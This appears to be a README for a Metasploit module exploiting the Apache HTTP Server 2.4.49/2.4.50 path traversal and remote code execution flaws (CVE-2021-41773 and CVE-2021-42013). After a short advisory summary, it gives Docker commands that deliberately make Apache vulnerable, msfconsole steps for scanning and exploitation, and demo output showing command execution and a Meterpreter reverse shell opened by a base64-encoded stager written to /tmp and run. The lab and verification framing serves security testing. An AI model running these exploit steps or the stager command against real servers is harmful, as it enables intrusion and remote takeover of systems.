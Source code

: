 # CVE-2021-41773|CVE-2021-42013: Path Traversal Zero-Day in Apache HTTP Server Exploited

On October 5, the Apache HTTP Server Project patched CVE-2021-41773, a path traversal and file disclosure vulnerability in Apache HTTP Server, an open-source web server for Unix and Windows that is among the most widely used web servers. According to the security advisory, CVE-2021-41773 has been exploited in the wild as a zero-day. The vulnerability was disclosed to the Apache HTTP Server Project on September 29 by Ash Daulton and the cPanel Security Team. However, the advisory does not indicate when exploitation of CVE-2021-41773 was detected, but it stands to reason that the exploitation drove the expedited release of a patch.

See: https://fr.tenable.com/blog/cve-2021-41773-path-traversal-zero-day-in-apache-http-server-exploited

This vulnerability has been reintroduced in Apache 2.4.50 fix (CVE-2021-42013).

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.

## Make your lab

#### Path Traversal

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

#### Remote Code Execution

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

## Verification

List the steps needed to make sure this thing works

- [ ] Make your lab using commands above.

Use scanner module:

- [ ] Start `msfconsole`.
- [ ] `use auxiliary/scanner/http/apache_normalize_path`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `run`

Use exploit module:

- [ ] Start `msfconsole`.
- [ ] `use exploit/multi/http/apache_normalize_path_rce`
- [ ] `set RHOSTS [IP]`
- [ ] `set RPORT 8080`
- [ ] `set SSL false`
- [ ] `set LHOST [IP]`
- [ ] `set VERBOSE true`
- [ ] `run`

## Demo

### CLI

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf6 exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > setg RHOSTS 172.20.4.11
RHOSTS => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
